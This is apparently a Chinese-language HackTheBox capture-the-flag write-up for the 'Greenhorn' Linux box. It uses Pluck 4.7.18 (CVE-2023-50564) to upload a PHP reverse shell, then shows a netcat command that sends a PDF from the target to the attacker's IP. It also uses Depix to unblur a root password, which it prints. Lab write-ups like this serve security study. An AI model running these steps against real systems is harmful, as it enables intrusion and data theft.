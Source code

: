 ```yaml
---
title: "HTB-Greenhorn"
date: 2024-09-17
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

![](./images/image-201.png)

### Dirsearch

![](./images/image-206.png)

找到一些敏感文件

![](./images/image-205.png)

进入`login.php`，发现pluck的版本是`4.7.18`

## CVE-2023-50564

查询相关漏洞之后，发现RCE需要先上传文件。

进入`3000`端口

![](./images/image-207.png)

找到`pass.php`，并尝试解密

![](./images/image-208.png)

![](./images/image-209.png)

![](./images/image-210.png)

登录成功，进入installmodule

![](./images/image-211.png)

这里把反弹shell文件进行压缩后上传

[php-reverse-shell/php-reverse-shell.php at master · pentestmonkey/php-reverse-shell (github.com)](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![](./images/image-213.png)

得到反弹shell

![](./images/image-214.png)

存在两个用户，git和junior，其中junior能进去，但是没有权限读取user.txt

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

升级shell，用之前的密码尝试切换junior用户，得到user.txt

![](./images/image-215.png)

## Privilege Escalation

尝试下载这个pdf文件

使用nc连接传输

```
#靶机
junior@greenhorn:~$ nc -q 0 10.10.16.29 4321 < 'Using OpenVAS.pdf'

#kali
nc -lnvp 4321 > file.pdf
```

![](./images/image-216.png)

打开这个pdf，发现密码被打了码

![](./images/image-217.png)

Github工具：[spipm/Depix: Recovers passwords from pixelized screenshots (github.com)](https://github.com/spipm/Depix)

![](./images/image-219.png)

```
python3 depix.py -p /home/kali/Pictures/ma.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o output.png 
```

![](./images/image-218.png)

勉强能看出是：`sidefromsidetheothersidesidefromsidetheotherside`

![](./images/image-220.png)

## Summary

做到这个题目才知道有`Depix`这种消除马赛克的东西，感觉很厉害

整体来说比较常规
